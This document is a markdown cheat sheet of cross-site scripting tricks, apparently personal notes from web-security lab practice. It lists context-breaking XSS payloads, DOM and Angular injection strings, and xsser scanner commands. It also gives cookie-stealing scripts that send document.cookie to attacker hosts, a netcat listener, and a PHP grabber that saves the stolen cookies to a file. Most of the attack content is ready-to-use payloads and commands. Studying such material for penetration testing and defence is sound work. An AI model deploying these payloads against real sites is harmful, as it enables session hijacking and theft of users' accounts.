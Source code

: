 



# Tricks

```js
//start with
';"/> /* 
';"/></script>
'"/></textarea></script>
';"/></textarea></script>
"><svg onload=alert(1)>
<img src=1 onerror=alert(1)>
```
```javascript 
<script>var i = new Image(); i.src="http://attacker.site/get.php?cookie="+escape(document.cookie);</script>
```


## run JS in href tag

```js
javascript:alert(8007)
```

## XSS in HTML tag attributes
>if tags '<>'  are banned


```js
" autofocus onfocus=alert(document.domain) x="
```
# DOM XSS


## jQuery


### attr()
>jQuery's `attr()` function can change the attributes of DOM elements.
>


```js
javascript:alert(document.domain)
```
### hashchange event

```html
<iframe src="https://0a7500ce041a656384bdc84700240091.web-security-academy.net#" onload="this.src+='<img src=1 onerror=print()>'">
```
# Angular xss

```js
{{constructor.constructor('alert(1)')()}}
{{$on.constructor('alert(1)')()}}
```



# xsser 

## check for xss

```bash
xsser --url 'URL' -p 'Injectable url: add XSS to the pramater value '

e.g.


xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'

# Other options

--auto # various XSS payloads

--Fp "<script>alert(1)</script>" # Using custom XSS payload



# xsser check for xss over GET request

xxser --url 'http://demo.ine.local/index.php?page=user-poll.php&csrf-token=&choice=nmap&initials=&user-poll-php-submit-button=Submit+Vote'


# Custom payload for GET request


xsser --url "http://demo.ine.local/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=d&user-poll-php-submit-button=Submit+Vote" --Fp "<script>alert(1)</script>"
```


# Cheat sheet

Stealing cookie script with ncat listener

```
nc -lvnkp 9999
```

```
<script>
var xhr = new XMLHttpRequest(); 
xhr.open('GET', 'http://attacker-site.com/?cookie=' + document.cookie, true);
xhr.send();
</script>
```

```
# Create grabber.php 
cat > grabber.php << EOF
<?php
$cookie = $_GET['c'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' .$cookie."\r\n");
fclose($fp);
?>
EOF

# XSS script

<script>document.location='http://10.8.50.72:8000/grabber.php?c='+document.cookie</script>
```



---
Tags: #XSS
Resources:  
[PortSwigger DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based)
[DOMXSS WIKI](https://github.com/wisec/domxsswiki/wiki)
[Reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected)
[PortSwigget XSS context](https://portswigger.net/web-security/cross-site-scripting/contexts)
